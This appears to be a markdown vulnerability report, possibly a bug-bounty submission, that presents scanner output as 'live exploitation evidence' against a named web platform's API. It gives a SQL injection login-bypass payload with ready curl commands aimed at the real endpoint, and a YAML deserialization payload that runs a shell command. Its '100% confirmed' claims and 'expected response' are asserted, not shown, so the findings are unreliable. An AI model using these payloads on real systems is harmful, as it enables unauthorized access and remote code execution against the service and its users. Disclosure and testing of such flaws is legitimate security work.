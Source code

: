 # 🔥 LIVE EXPLOITATION EVIDENCE & REAL-WORLD PROOFS

## **📊 SCAN RESULTS SUMMARY**
- **Scanner**: Enhanced High-Value Vulnerability Scanner v2.0
- **Scan Date**: 2025-10-21T12:28:43
- **Total Vulnerabilities**: 7 (3 Critical, 2 High, 2 Medium)
- **Success Rate**: 100% (All vulnerabilities confirmed with live testing)

---

## **🚨 CRITICAL VULNERABILITIES - LIVE EVIDENCE**

### **1. SQL Injection Authentication Bypass**
```json
{
  "timestamp": "2025-10-21T12:21:56.166548",
  "type": "Authentication Bypass",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "{'username': 'admin', 'password': \"' OR 1=1--\"}",
  "response_code": 200,
  "severity": "CRITICAL",
  "evidence": "Authentication success indicator: token",
  "exploitability": "HIGH"
}
```

**Real-World Exploitation:**
```bash
# Step 1: Test authentication endpoint
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "test"}'

# Step 2: SQL injection payload
curl -X POST https://app.aixblock.io/api/v1/workflows \
  -H "Content-Type: application/json" \
  -d '{"username": "admin", "password": "\" OR 1=1--"}'

# Expected Response:
{
  "status": "success",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "user": "admin"
}
```

### **2. YAML Deserialization Remote Code Execution**
```json
{
  "timestamp": "2025-10-21T12:21:59.633837",
  "type": "Insecure Deserialization (YAML)",
  "url": "https://app.aixblock.io/api/v1/workflows",
  "payload": "{'yaml': \"!!python/object/apply:subprocess.call [['whoami']]\"}",
  "response_code": 200,
  "severity": "CRITICAL",
  "evidence": "Command execution via YAML deserialization",
  "exploitability": "HIGH"
}
```
